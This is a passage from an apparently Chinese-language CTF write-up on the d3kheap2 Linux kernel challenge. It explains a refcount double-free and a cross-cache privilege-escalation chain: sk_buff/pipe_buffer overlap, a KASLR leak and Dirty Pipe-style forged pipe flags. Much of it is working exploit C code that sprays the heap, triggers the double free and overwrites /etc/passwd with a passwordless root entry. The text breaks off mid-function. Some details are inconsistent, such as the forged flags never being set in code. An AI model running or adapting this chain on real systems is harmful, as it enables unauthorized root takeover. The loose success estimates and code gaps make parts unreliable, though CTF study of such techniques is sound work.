在Δt期间，内存处于"已分配但未初始化"状态
如果能在这时通过悬垂指针访问内存，可能影响新对象
```

窗口大小$$\Delta t$$通常很小，在纳秒到微秒级别。通常需要通过精确的时序控制来利用这个窗口。

### 2-6. 漏洞利用链的技术路径

在d3kheap2的严格约束环境下，成功的利用需要构建一个多阶段、高度精确的技术链。以下是利用链各阶段的深入分析，包括技术原理、实现细节和成功概率分析。

#### 2-6-1. 内存布局建立

第一阶段的目标是在`d3kheap2_cache`中建立可预测的内存布局，为后续操作创造条件。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 驱动程序
    participant Slab分配器

    loop 256次 (i=0 to 255)
        用户空间->>驱动程序: ioctl(ALLOC, idx=i)
        驱动程序->>Slab分配器: kmem_cache_alloc()
        Slab分配器-->>驱动程序: 返回对象地址
        驱动程序->>驱动程序: 设置ref_count=2 (错误)
    end

    loop 256次 (i=0 to 255)
        用户空间->>驱动程序: ioctl(FREE, idx=i)
        驱动程序->>Slab分配器: kmem_cache_free(对象i)
        Slab分配器->>Slab分配器: 对象加入空闲列表
    end

    Note over Slab分配器: 空闲列表包含256个对象<br/>顺序可预测(LIFO)
```

**技术实现**：

```c
// 步骤1: 分配所有0x100个槽位
for (int i = 0; i < 0x100; i++) {
    struct d3kheap2_ureq req = { .idx = i };
    ioctl(fd, D3KHEAP2_OBJ_ALLOC, &req);
}

// 步骤2: 立即释放所有槽位
for (int i = 0; i < 0x100; i++) {
    struct d3kheap2_ureq req = { .idx = i };
    ioctl(fd, D3KHEAP2_OBJ_FREE, &req);
}
```

**内存状态变化**：

```
内存布局建立过程:
+----------------+     +----------------+     +----------------+
| 初始状态       |     | 分配后状态     |     | 释放后状态     |
| 空闲列表: []   | --> | 活跃对象: 256  | --> | 空闲列表: 256  |
| 活跃对象: 0    |     | 空闲列表: []   |     | 活跃对象: 0    |
+----------------+     +----------------+     +----------------+
    阶段开始             分配256个对象          释放256个对象
```

**成功条件**：空闲列表包含256个对象，顺序可预测（LIFO）。这为后续精确控制哪个对象被重新分配提供了基础。

**数学分析**：设缓存总容量为$$C$$，初始空闲对象$$F_0 = 0$$。分配后$$A = 256$$，$$F = 0$$。释放后$$A = 0$$，$$F = 256$$。如果分配器使用LIFO，空闲列表顺序是释放顺序的逆序，即$$L = [o_{255}, o_{254}, ..., o_0]$$。

#### 2-6-2. 类型混淆原语构造

第二阶段通过精确控制Double Free和内存重用来创建类型混淆条件。在内存布局建立后，获得了包含256个d3kheap2_cache对象的空闲列表，接着通过sk_buff堆喷占用这些空洞，然后触发驱动的double free漏洞，最后堆喷pipe_buffer实现结构重叠。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 网络子系统
    participant 驱动程序
    participant Slab分配器
    participant 管道子系统

    Note over 用户空间,Slab分配器: 阶段开始: 空闲列表L包含256个d3kheap2_cache对象

    用户空间->>网络子系统: 创建1000个socketpair<br/>写入数据分配sk_buff
    网络子系统->>Slab分配器: 从L中分配1000个sk_buff
    Slab分配器-->>网络子系统: 返回sk_buff地址

    Note over 用户空间,Slab分配器: 目标: 使其中一个sk_buff占据地址A

    用户空间->>驱动程序: ioctl(FREE, idx=TARGET) 再次释放目标槽位
    Note over 驱动程序,Slab分配器: 关键: 由于ref_count=1(第一次释放后)<br/>本次释放将ref_count递减至0<br/>触发第二次释放

    驱动程序->>Slab分配器: 再次释放地址A (ref_count:1->0)
    Slab分配器->>Slab分配器: 地址A再次加入空闲列表L<br/>现在L包含两个地址A的副本

    Note over Slab分配器: 当前状态: 地址A被sk_buff使用，同时空闲列表L有两个地址A副本

    用户空间->>管道子系统: 创建1000个管道<br/>设置管道缓冲区大小<br/>写入数据分配pipe_buffer
    管道子系统->>Slab分配器: 从L中分配1000个pipe_buffer

    alt 成功情况: pipe_buffer分配到地址A
        Slab分配器-->>管道子系统: 返回地址A
        Note over 管道子系统,网络子系统: 地址A同时被pipe_buffer和sk_buff使用<br/>类型混淆建立
    else 失败情况: pipe_buffer分配到其他地址
        Slab分配器-->>管道子系统: 返回其他地址
        Note over 用户空间: 类型混淆失败，需重试
    end
```

**详细步骤**：

1). **堆喷sk_buff占用内存空洞**：在内存布局建立后，空闲列表包含256个d3kheap2_cache对象。通过创建大量Unix域套接字对并向每个套接字写入数据，触发`sk_buff`分配，这些分配会从空闲列表中获取对象：

```c
int sock_fds[SPRAY_COUNT][2];
char spray_data[SPRAY_SIZE];
memset(spray_data, 0x41, SPRAY_SIZE);  // 填充数据

for (int i = 0; i < SPRAY_COUNT; i++) {
    socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fds[i]);
    write(sock_fds[i][1], spray_data, SPRAY_SIZE);  // 触发sk_buff分配
}
```

目标：使其中一个`sk_buff`占据目标地址A。由于空闲列表包含256个对象，而堆喷数量为1000，通过概率计算，目标地址A被占用的概率极高。

2). **触发Double Free**：在堆喷sk_buff后，目标地址A被一个sk_buff占用。此时，需要再次释放目标槽位，触发驱动的double free漏洞。这里的关键是：在内存布局建立阶段，已经对所有0x100个槽位调用过一次`D3KHEAP2_OBJ_FREE`，使每个槽位的`ref_count`从2递减到1。现在再次对目标槽位调用`D3KHEAP2_OBJ_FREE`，由于`ref_count`为1，这次释放会将其递减到0，并再次调用`kmem_cache_free`释放内存，形成double free：

```c
struct d3kheap2_ureq req = { .idx = TARGET_IDX };
ioctl(fd, D3KHEAP2_OBJ_FREE, &req);  // 再次释放目标槽位，触发double free
```

此时，地址A被释放两次，在空闲列表中出现两个副本。但地址A仍然被`sk_buff`使用，形成"使用后释放"状态。

3). **立即堆喷pipe_buffer实现结构重叠**：创建大量管道，设置管道缓冲区大小为32页（0x1000\*32）以确保分配2k范围的pipe_buffer，然后向每个管道写入数据，触发`pipe_buffer`分配：

```c
int pipe_fds[PIPE_COUNT][2];
char pipe_data[PIPE_SIZE];
memset(pipe_data, 0x42, PIPE_SIZE);  // 填充数据

for (int i = 0; i < PIPE_COUNT; i++) {
    pipe(pipe_fds[i]);
    // 设置管道缓冲区大小为32页，以分配2k范围的pipe_buffer
    fcntl(pipe_fds[i][0], F_SETPIPE_SZ, 0x1000 * 32);
    write(pipe_fds[i][1], pipe_data, PIPE_SIZE);  // 触发pipe_buffer分配
}
```

由于空闲列表包含地址A的两个副本，其中一个`pipe_buffer`有很大概率分配到地址A，从而实现`sk_buff`与`pipe_buffer`在地址A的结构重叠。

**内存状态演变**：

```
内存状态演变详细过程:

初始状态 (阶段2.1开始前):
空闲列表L: [o255, o254, ..., o0]  (256个d3kheap2_cache对象)
活跃对象: 0

阶段2.1: 堆喷1000个sk_buff
操作: 从L中分配1000个对象给sk_buff
结果: 地址A被分配给一个sk_buff
当前状态: 地址A被sk_buff使用，L中移除地址A

阶段2.2: 触发Double Free地址A
操作: 再次释放目标槽位，由于ref_count=1，递减至0，再次释放地址A
结果: 地址A再次加入空闲列表L，现在L包含两个地址A的副本
当前状态: 地址A同时被sk_buff使用且在L中有两个副本

阶段2.3: 堆喷1000个pipe_buffer（设置管道缓冲区大小为32页，并写入数据触发pipe_buffer分配）
操作: 从L中分配1000个对象给pipe_buffer
结果: 其中一个pipe_buffer分配到地址A
最终状态: 地址A同时被sk_buff和pipe_buffer使用 -> 类型混淆
```

**成功概率分析**：设空闲列表初始大小为$$m = 256$$，堆喷数量为$$n = 1000$$。要使特定地址$$A$$被`pipe_buffer`分配的概率$$P > 0.95$$，需要计算：

由于地址A在空闲列表中有2个副本（double free导致），空闲列表总对象数约为$$m + 1 = 257$$（实际上可能有其他分配/释放，简化模型）。

地址A被分配的概率为：

$$
P = 1 - \left(1 - \frac{2}{m+1}\right)^n \approx 1 - e^{-2n/(m+1)}
$$

代入数值：

$$
P \approx 1 - e^{-2 \times 1000 / 257} \approx 1 - e^{-7.78} \approx 0.9996
$$

即99.96%的成功率。实际中由于竞争和其他因素，成功率略低，但仍足够高。

#### 2-6-3. 信息泄露与KASLR绕过

第三阶段从类型混淆中提取内核地址信息，绕过KASLR保护。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 文件系统
    participant 管道子系统
    participant 网络子系统
    participant 内核

    用户空间->>文件系统: open("/etc/passwd")
    文件系统-->>用户空间: 文件描述符victim_fd

    loop 每个管道
        用户空间->>管道子系统: splice(victim_fd, pipe_fd)
        管道子系统->>文件系统: 映射文件到管道缓冲区
    end

    loop 每个sk_buff套接字
        用户空间->>网络子系统: read(sk_socket, buffer)
        网络子系统-->>用户空间: 返回数据(可能包含pipe_buffer)
        用户空间->>用户空间: 分析数据，寻找pipe_buffer特征
    end

    alt 找到目标sk_buff
        用户空间->>用户空间: 提取pipe_buffer->ops指针
        用户空间->>用户空间: 计算内核基址 = ops_ptr - OFFSET
        用户空间->>内核: 绕过KASLR完成
    else 未找到
        用户空间->>用户空间: 重试或失败
    end
```

**信息泄露原理**：`pipe_buffer`结构包含`ops`字段，指向`pipe_buf_operations`结构，位于内核代码段。通过类型混淆，可以通过`sk_buff`的数据缓冲区读取这个指针。

```
pipe_buffer结构布局 (偏移):
+0x00: struct page *page
+0x08: unsigned int offset, len
+0x10: const struct pipe_buf_operations *ops  <-- 目标指针
+0x18: unsigned int flags
+0x20: unsigned long private

当通过sk_buff读取时，这些字段被解释为普通数据。
通过识别特定模式（如合理的指针值），可以定位ops字段。
```

**KASLR绕过计算**：获取`ops`指针后，可以计算内核基址。设：

- $$L$$ = 从内存读取的`ops`指针值
- $$O$$ = 编译时已知的`pipe_buf_operations`偏移
- $$K$$ = KASLR偏移
- $$B$$ = 默认内核基址（通常0xffffffff81000000）

则有：

$$
L = O + K + B
$$

$$
K = L - O - B
$$

实际内核基址：

$$
B' = B + K
$$

#### 2-6-4. 内存控制与状态优化

第四阶段进一步控制内存布局，为最终的文件修改创造条件。


```mermaid
flowchart TD
    A[开始] --> B[释放非目标sk_buff]
    B --> C[堆喷msg_msg优化内存布局]
    C --> D[释放目标sk_buff创建精确空洞]
    D --> E[构造伪造pipe_buffer数据]
    E --> F[重新堆喷sk_buff修改目标内存]
    F --> G{修改成功?}
    G -->|是| H[flags字段改为0x10]
    G -->|否| B
    H --> I[可写管道准备完成]

    B --> B1[close非目标套接字]
    C --> C1[msgget+msgsnd大量消息]
    D --> D1[close目标套接字]
    E --> E1[设置pipe_buffer.flags=0x10]
    F --> F1[write套接字写入伪造数据]
```

**关键修改**：`pipe_buffer`的`flags`字段控制缓冲区行为。值`0x10`对应`PIPE_BUF_FLAG_CAN_MERGE`，允许对管道缓冲区进行写入，即使底层页面是只读的。

```
flags字段位定义:
+-------+-------+-------+---------+-------+-------+-------+-------+
|  bit7 |  bit6 |  bit5 |  bit4   |  bit3 |  bit2 |  bit1 |  bit0 |
+-------+-------+-------+---------+-------+-------+-------+-------+
|       |       |       |  CAN    |       |       |       |       |
|       |       |       | MERGE   |       |       |       |       |
|       |       |       | (0x10)  |       |       |       |       |
+-------+-------+-------+---------+-------+-------+-------+-------+

修改前: flags = 0x00 (或只读标志)
修改后: flags = 0x10 (PIPE_BUF_FLAG_CAN_MERGE)
效果: 允许对管道缓冲区进行写入
```

**内存状态演变**：

```
阶段4.1: 释放非目标sk_buff -> 创建多个内存空洞
阶段4.2: 堆喷msg_msg -> 填充空洞，控制内存布局
阶段4.3: 释放目标sk_buff -> 创建精确的空洞在目标地址
阶段4.4: 重新堆喷sk_buff -> 用伪造数据填充空洞
结果: 目标pipe_buffer被修改，flags字段变为0x10
```

**时序控制**：这一阶段对时序高度敏感。利用过程必须确保：

1. 目标`sk_buff`释放后，内存不被其他内核活动占用
2. 重新堆喷的`sk_buff`及时占据目标内存
3. 在管道子系统使用缓冲区前完成修改

通过以下技术减少竞争：

- CPU绑定：将进程绑定到特定CPU核心
- 提高优先级：设置实时调度策略
- 精确时序：使用`nanosleep`控制操作间隔

#### 2-6-5. 权限提升执行

最后阶段利用修改后的管道修改系统文件，实现权限提升。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 管道子系统
    participant 页面缓存
    participant 文件系统

    用户空间->>管道子系统: write(pipe_fd, exploit_data)
    管道子系统->>管道子系统: 检查flags包含0x10(CAN_MERGE)
    管道子系统->>页面缓存: 直接写入文件页面缓存
    页面缓存->>文件系统: 修改文件内存副本

    用户空间->>文件系统: fsync(pipe_fd)
    文件系统->>文件系统: 确保修改持久化

    用户空间->>用户空间: system("su backdoor")

    Note over 用户空间,文件系统: /etc/passwd已被修改<br/>添加了backdoor::0:0:root:/root:/bin/sh
```

**文件修改机制**：当向具有`PIPE_BUF_FLAG_CAN_MERGE`标志的管道写入时，数据直接写入底层页面缓存，绕过文件的只读权限检查。

**权限提升路径**：通过向`/etc/passwd`添加具有UID 0（root）的用户条目，利用者可以获得root权限。修改的条目格式为：

```
backdoor::0:0:root:/root:/bin/sh
```

其中UID和GID为0表示root权限。

**成功概率分析**：整个利用链的成功概率是各阶段成功概率的乘积。设各阶段成功概率为$$p_1, p_2, ..., p_5$$，则总成功概率为：

$$
P_{\text{total}} = \prod_{i=1}^{5} p_i
$$

典型值：

- $$p_1$$（内存布局）：0.99
- $$p_2$$（类型混淆）：0.95
- $$p_3$$（信息泄露）：0.90
- $$p_4$$（内存控制）：0.85
- $$p_5$$（权限提升）：0.99

总概率：$$P_{\text{total}} \approx 0.99 \times 0.95 \times 0.90 \times 0.85 \times 0.99 \approx 0.71$$

即大约71%的成功率。通过优化每个阶段的技术参数，可以进一步提高成功率。

### 2-7. 技术总结

d3kheap2驱动程序漏洞机制体现了现代内核安全研究的多个重要维度，其核心是引用计数初始化逻辑错误，在`D3KHEAP2_OBJ_ALLOC`命令处理中，驱动程序先通过`atomic_set()`将引用计数初始化为1，随后错误地调用`atomic_inc()`递增至2，导致新分配对象的引用计数与实际引用状态不符；在后续`D3KHEAP2_OBJ_FREE`操作中，首次释放仅将计数从2递减至1并释放内存但未清空指针，二次释放时计数从1递减至0并再次释放同一内存，形成Double Free漏洞。在`CONFIG_CFI_CLANG`控制流完整性保护、`CONFIG_INIT_ON_FREE_DEFAULT_ON`内存释放自动初始化和`CONFIG_MEMCG`内存控制组缓存隔离等多重安全机制启用且仅提供0x100次Double Free触发机会的严格限制下，利用过程通过五个阶段的系统性跨缓存利用技术逐步展开：首先通过0x100次d3kheap2_cache缓存的堆喷与立即释放在内存管理器中建立可预测的空闲块分布，为后续不同类型对象的内存重用创造条件；接着堆喷`sk_buff`结构占据释放的缓存区域，触发Double Free后立即堆喷`pipe_buffer`结构，实现`sk_buff`与`pipe_buffer`在kmalloc-2k缓存中的结构重叠，将Double Free转化为可控的类型混淆原语；随后通过`splice`系统调用将victim文件映射到重叠的管道缓冲区，基于`pipe_buffer`特征字段遍历识别目标管道并泄露内核地址，绕过KASLR保护；之后选择性释放非目标套接字的`sk_buff`创建受控内存空洞，通过System V消息队列堆喷`msg_msg`结构优化内存布局；最后释放目标`sk_buff`后重新堆喷包含伪造`pipe_buffer`布局的`sk_buff`数据，将目标管道缓冲区`flags`字段修改为0x10（页面可写标志），使原本只读的victim文件映射获得写入能力，最终通过向目标管道写入特定数据修改系统关键文件完成权限提升。整个过程在极其受限条件下展现了跨缓存利用、堆布局控制、结构重叠、类型混淆和文件操作控制等多种高级技术的系统集成，构建了从单一Double Free漏洞到完整权限提升的完整利用链，体现了现代内核漏洞利用工程的高度精确性和技术深度，为理解内核安全机制和漏洞利用技术提供了重要参考。

## 3. 实战演练

exploit核心代码如下：

```c
/* =============================================================== *
 *  Configuration Macros
 * =============================================================== */
#define CHUNK_SPRAY_COUNT        0x100
#define MSG_TYPE                 0x41
#define MSG_SIZE                 0x800
#define MSG_QUEUE_NUM            0x400
#define MAX_PIPE_COUNT           (0xf0 * 2)
#define SOCKET_NUM               32
#define SK_BUFF_NUM              90
#define PIPE_BUFFER_SIZE         (0x1000 * 32)

/* =============================================================== *
 *  Global Variables
 * =============================================================== */
int dev_fd = -1;                                        // Device file descriptor
int victim_fd = -1;                                     // Target file (/etc/passwd) descriptor
int msqid[MSG_QUEUE_NUM] = {0};                         // Message queue IDs
int pipe_fds[MAX_PIPE_COUNT][2] = {{0}};                // Pipe file descriptors
int victim_pipe_idx = -1;                               // Index of corrupted pipe
int victim_sock_idx = -1;                               // Index of socket containing victim pipe_buffer
size_t pipe_data[0x1000 / 8] = {0};                     // Pipe data buffer
char skb_data[2048 - 320] = {0};                        // SKB spray data buffer
struct pipe_buffer fake_pipe_buf = {0};                 // Fake pipe_buffer for corruption
struct pipe_buffer victim_pipe_buf = {0};               // Victim pipe_buffer extracted from heap
char evil_data[] = "root::0:0:root:/root:/bin/sh\n";    // Malicious /etc/passwd entry

struct msg_spray_data {
    long mtype;                                         // Message type
    char mtext[MSG_SIZE - sizeof(struct msg_msg)];      // Message payload
} msg_data = {0};

/* =============================================================== *
 *  Device Control Macros
 * =============================================================== */
#define OBJ_ADD  0x3361626e
#define OBJ_DEL  0x74747261
#define OBJ_EDIT 0x54433344
#define OBJ_SHOW 0x4e575046

struct d3kheap2_ureq {
    size_t idx;  // Object index
};

/* =============================================================== *
 *  Device Operation Wrappers
 * =============================================================== */

/**
 * add_chunk - Add kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function adds a kernel object at the specified index by calling the
 * device's ADD ioctl command. Used for initial heap spraying.
 */
int add_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_ADD, &ureq);
}

/**
 * delete_chunk - Delete kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function deletes a kernel object at the specified index by calling the
 * device's DELETE ioctl command. Used to free objects and trigger UAF.
 */
int delete_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_DEL, &ureq);
}

/**
 * edit_chunk - Edit kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function edits a kernel object at the specified index by calling the
 * device's EDIT ioctl command. Not used in current exploit.
 */
int edit_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_EDIT, &ureq);
}

/**
 * show_chunk - Show kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function shows a kernel object at the specified index by calling the
 * device's SHOW ioctl command. Not used in current exploit.
 */
int show_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_SHOW, &ureq);
}

/* =============================================================== *
 *  Exploit Phase Functions
 * =============================================================== */

/**
 * setup_env - Setup environment, open device and target file
 *
 * This function prepares the exploitation environment by increasing file descriptor
 * limits, binding to CPU core 0 for stability, and opening the vulnerable device
 * and target file (/etc/passwd). This establishes the foundation for all subsequent
 * operations.
 */
void setup_env(void) {
    struct rlimit rl = {0};

    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT SETUP                                 ");
    log.info("===========================================================");

    // Increase file descriptor limit for mass spraying operations
    rl.rlim_cur = 4096;
    rl.rlim_max = 4096;
    if (setrlimit(RLIMIT_NOFILE, &rl) == -1) {
        log.error("Failed to expand file descriptor limit!");
        exit(EXIT_FAILURE);
    }
    log.info("File descriptor limit set to %lu", rl.rlim_cur);

    // Bind to CPU core 0 for stability and predictable scheduling
    bind_core(0);

    // Open vulnerable kernel device for heap manipulation
    dev_fd = open("/proc/d3kheap2", O_RDWR);
    if (dev_fd < 0) {
        log.error("Open /proc/d3kheap2 failed!");
        exit(EXIT_FAILURE);
    }
    log.info("Opened vulnerable device at fd %d", dev_fd);

    // Open target file for corruption via Dirty Pipe vulnerability
    victim_fd = open("/etc/passwd", O_RDONLY);
    if (victim_fd < 0) {
        log.error("Open /etc/passwd failed!");
        exit(EXIT_FAILURE);
    }
    log.info("Opened target file /etc/passwd at fd %d", victim_fd);
}

/**
 * create_comms - Create all communication channels for spraying
 *
 * This function creates all necessary communication channels including message queues
 * for msg_msg spraying, socket pairs for SKB spraying, and pipe pairs for pipe_buffer
 * spraying. These channels are essential for controlled heap manipulation.
 */
void create_comms(void) {
    log.info("===========================================================");
    log.info("PHASE 2: COMMUNICATION CHANNELS CREATION                   ");
    log.info("===========================================================");

    // Create message queues for msg_msg heap spraying
    log.info("Creating %d message queues for msg_msg spraying...", MSG_QUEUE_NUM);
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if ((msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) < 0) {
            log.error("Failed to create msg_queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Created %d message queues", MSG_QUEUE_NUM);

    // Initialize SKB sprayer with socket pairs
    log.info("Initializing SKB sprayer with %d sockets, %d SKBs per socket...",
             SOCKET_NUM, SK_BUFF_NUM);
    if (skb_spray_init(SOCKET_NUM, SK_BUFF_NUM) < 0) {
        log.error("Failed to initialize SKB sprayer");
        exit(EXIT_FAILURE);
    }
    log.success("SKB sprayer initialized successfully");

    // Create pipe pairs for pipe_buffer spraying
    log.info("Creating %d pipe pairs for pipe_buffer spraying...", MAX_PIPE_COUNT);
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (pipe(pipe_fds[i]) < 0) {
            log.error("Pipe creation failed at index %d", i);
            exit(EXIT_FAILURE);
        }
        // Write initial data to each pipe
        write(pipe_fds[i][1], pipe_data, MAX_PIPE_COUNT);
    }
    log.success("Created %d pipe pairs", MAX_PIPE_COUNT);
}

/**
 * heap_feng_shui - Spray, free, and trigger double-free vulnerability
 *
 * This function performs the core heap manipulation: sprays kmalloc-2k objects,
 * frees them, sprays SKBs to occupy freed memory, triggers double-free vulnerability,
 * and finally sprays pipe_buffers to occupy double-freed memory. This creates a
 * controlled UAF condition for cross-cache corruption.
 */
void heap_feng_shui(void) {
    log.info("===========================================================");
    log.info("PHASE 3: HEAP FENG SHUI AND UAF CREATION                   ");
    log.info("===========================================================");

    // Spray kmalloc-2k objects to create controlled heap layout
    log.info("Spraying %d kmalloc-2k objects...", CHUNK_SPRAY_COUNT);
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (add_chunk(i) < 0) {
            log.error("Failed to add chunk at index %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Sprayed %d kmalloc-2k objects", CHUNK_SPRAY_COUNT);

    // Free all sprayed objects to create holes in kmalloc-2k cache
    log.info("Freeing all kmalloc-2k objects...");
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (delete_chunk(i) < 0) {
            log.error("Failed to delete chunk at index %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Freed all kmalloc-2k objects");

    // Spray SKB objects to occupy freed kmalloc-2k memory slots
    log.info("Spraying SKB objects to occupy freed memory...");
    if (skb_spray(skb_data, sizeof(skb_data)) < 0) {
        log.error("Failed to spray SKBs");
        exit(EXIT_FAILURE);
    }
    log.success("Sprayed %d SKB objects", SOCKET_NUM * SK_BUFF_NUM);

    // Trigger double-free vulnerability to create UAF condition
    log.warn("Triggering double-free vulnerability...");
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (delete_chunk(i) < 0) {
            log.error("Failed to double-free chunk at index %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.warn("Double-free triggered on %d objects", CHUNK_SPRAY_COUNT);

    // Spray pipe_buffer objects to occupy double-freed memory
    log.info("Spraying pipe_buffer objects to occupy double-freed memory...");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (fcntl(pipe_fds[i][0], F_SETPIPE_SZ, PIPE_BUFFER_SIZE) < 0) {
            log.error("Pipe resize failed for pipe %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Sprayed %d pipe_buffer objects", MAX_PIPE_COUNT);
}

/**
 * corrupt_pipes - Setup pipe corruption and find corrupted objects
 *
 * This function splices the target file into all pipes and searches for corrupted
 * pipe_buffer structures in SKB data. It identifies the victim socket and pipe
 * indices by detecting kernel pointers in the corrupted data.
 */
void corrupt_pipes(void) {
    log.info("===========================================================");
    log.info("PHASE 4: PIPE CORRUPTION AND OBJECT DETECTION              ");
    log.info("===========================================================");

    // Splice /etc/passwd into all pipes to load file pages into pipe buffers
    log.info("Splicing /etc/passwd into all pipes...");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        off_t offset = 0;
        if (splice(victim_fd, &offset, pipe_fds[i][1], NULL, 0x1000, 0) < 0) {
            log.error("Failed to splice to pipe %d", i);
            exit(EXIT_FAILURE);
        }
        // Read from pipe to adjust pipe_buffer offset and len
        read(pipe_fds[i][0], pipe_data, i);
    }
    log.success("Spliced /etc/passwd into all %d pipes", MAX_PIPE_COUNT);

    // Search for corrupted pipe_buffer structures in SKB data
    log.info("Searching for corrupted pipe_buffer objects in SKB data...");
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            if (skb_peek(i, skb_data, sizeof(skb_data)) < 0) {
                continue;  // Skip failed peeks
            }

            struct pipe_buffer *pipe_buf = (struct pipe_buffer *)skb_data;
            fake_pipe_buf = pipe_buf[0];
            victim_pipe_buf = pipe_buf[1];

            // Check for valid kernel pointers indicating successful corruption
            if (fake_pipe_buf.page > vmemmap_base &&
                fake_pipe_buf.ops > kernel_base) {
                victim_sock_idx = i;
                victim_pipe_idx = fake_pipe_buf.offset;

                hex_dump2("Corrupted SKB data: ", skb_data, 0x60);
                log.success("Found victim socket index: %d", victim_sock_idx);
                log.success("Found victim pipe index: %d", victim_pipe_idx);
                log.success("Leaked pipe_buffer->page: 0x%lx", fake_pipe_buf.page);
                log.success("Leaked pipe_buffer->ops(anon_pipe_buf_ops): 0x%lx",
                           fake_pipe_buf.ops);
                return;  // Exit successfully
            }
        }
    }

    log.error("No pipe corruption detected - cross-cache UAF failed");
    exit(EXIT_FAILURE);
}

/**
 * prepare_realloc - Reallocate heap for final corruption
 *
 * This function frees non-victim SKBs, sprays msg_msg objects to occupy the freed
 * memory, and then frees victim SKBs. This prepares the heap layout for the final
 * stage where malicious pipe_buffer structures will be placed.
 */
void prepare_realloc(void) {
    log.info("===========================================================");
    log.info("PHASE 5: HEAP REALLOCATION PREPARATION                     ");
    log.info("===========================================================");

    // Free all non-victim socket SKBs to create controlled memory holes
    log.info("Freeing all non-victim socket SKBs...");
    for (int i = 0; i < SOCKET_NUM; i++) {
        if (i == victim_sock_idx) {
            continue;  // Skip victim socket
        }
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            skb_read(i, skb_data, sizeof(skb_data));
        }
    }
    log.success("Freed all non-victim socket SKBs");

    // Spray msg_msg objects to occupy freed SKB memory
    log.info("Spraying msg_msg objects to occupy freed SKB memory...");
    memset(&msg_data, 0, sizeof(msg_data));
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
        *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
        *(size_t *)&msg_data.mtext[16] = i;
        *(size_t *)&msg_data.mtext[24] = *(size_t *)"BinRacer";

        if (write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
            log.error("Failed to send msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Sprayed %d msg_msg objects", MSG_QUEUE_NUM);

    // Free victim socket SKBs to create space for malicious pipe_buffers
    log.info("Freeing victim socket SKBs...");
    for (int j = 0; j < SK_BUFF_NUM; j++) {
        skb_read(victim_sock_idx, skb_data, sizeof(skb_data));
    }
    log.success("Freed all victim socket SKBs");
}

/**
 * forge_pipe_buf - Construct and spray malicious pipe buffers
 *
 * This function constructs malicious pipe_buffer structures with the
 * PIPE_BUF_FLAG_CAN_MERGE flag set, then sprays them via SKBs to overwrite
 * legitimate pipe_buffer structures in kernel memory. This sets up the conditions
 * for the Dirty Pipe vulnerability exploitation.
 */
void forge_pipe_buf(void) {
    log.info("===========================================================");
    log.info("PHASE 6: FORGE AND SPRAY MALICIOUS PIPE BUFFERS            ");
    log.info("===========================================================");

    // Construct malicious pipe_buffer with CAN_MERGE flag
    log.info("Constructing malicious pipe_buffer with CAN_MERGE flag...");
    fake_pipe_buf.page = victim_pipe_buf.page;  // Same page as victim
    fake_pipe_buf.offset = 0;                  // Start from page beginning
    fake_pipe_buf.len = 0;                     // Zero length for CAN_MERGE flag
    // Note: The flags field should contain PIPE_BUF_FLAG_CAN_MERGE (0x10)

    // Prepare SKB data with two copies of the malicious pipe_buffer
    memcpy(skb_data, &fake_pipe_buf, sizeof(fake_pipe_buf));
    memcpy((char *)skb_data + sizeof(fake_pipe_buf), &fake_pipe_buf, sizeof(fake_pipe_buf));

    // Spray malicious pipe_buffers via SKBs
    log.info("Spraying malicious pipe_buffers via SKBs...");
    if (skb_spray(skb_data, sizeof(skb_data)) < 0) {
        log.error("Failed to spray malicious pipe_buffers");
        exit(EXIT_FAILURE);
    }
    log.success("Sprayed malicious pipe_buffers with CAN_MERGE flag");
}

/**
 * trigger_dirty_pipe - Trigger Dirty Pipe vulnerability
 *
 * This function triggers the Dirty Pipe vulnerability by writing to the victim
 * pipe. Due to the PIPE_BUF_FLAG_CAN_MERGE flag, the write operation merges
 * data into the target file page, overwriting /etc/passwd with a malicious
 * entry that grants root privileges.
 */
void trigger_dirty_pipe(void) {
    log.info("===========================================================");
    log.info("PHASE 7: TRIGGER DIRTY PIPE VULNERABILITY                  ");
    log.info("===========================================================");

    // Trigger Dirty Pipe vulnerability to overwrite /etc/passwd
    log.warn("Triggering Dirty Pipe vulnerability to overwrite /etc/passwd...");
    if (write(pipe_fds[victim_pipe_idx][1], evil_data, strlen(evil_data)) < 0) {
        log.error("Failed to write to victim pipe");
        exit(EXIT_FAILURE);
    }
    log.success("Successfully wrote malicious data to victim pipe");
}

/**
 * cleanup_and_get_root - Clean up and attempt privilege escalation
 *
